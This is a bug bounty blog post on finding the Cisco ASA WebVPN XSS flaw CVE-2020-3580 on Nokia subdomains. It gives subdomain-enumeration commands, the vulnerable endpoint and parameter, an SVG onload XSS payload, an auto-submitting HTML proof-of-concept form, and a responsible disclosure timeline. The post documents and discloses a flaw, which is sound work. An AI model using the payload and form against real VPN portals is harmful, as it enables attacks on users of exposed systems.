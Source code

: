 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Assets"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h2 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h2>
The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>
I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following 
tools: **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains.

````bash
subfinder -d nokia.com -o nokia-subdomains.txt 
amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

````
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
````

Many subdomains returned HTTP 200 with WebVPN portals exposed. To test for the CVE-2020-3580, we need to send a POST request to ``/+CSCOE+/saml/sp/acs?tgname=a`` with the ``SAMLResponse`` parameter set to a payload that triggers the XSS vulnerability. The payload is: ``"><svg/onload=alert('XSS')>``

## POC:

````
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
````

<h2 style="color: #27AE60;">⚠️ CVE-2020-3580: Findings on Nokia Subdomains:</h2>

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.
<br>
<br>
![XSS](https://raw.githubusercontent.com/kakarotWrites/kakarotwrites.github.io/refs/heads/master/assets/3.png)

<br>

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

<br>

<img src="https://media.giphy.com/media/anDhBXwgvIa7m/giphy.gif" alt="Happy" width="600"/>


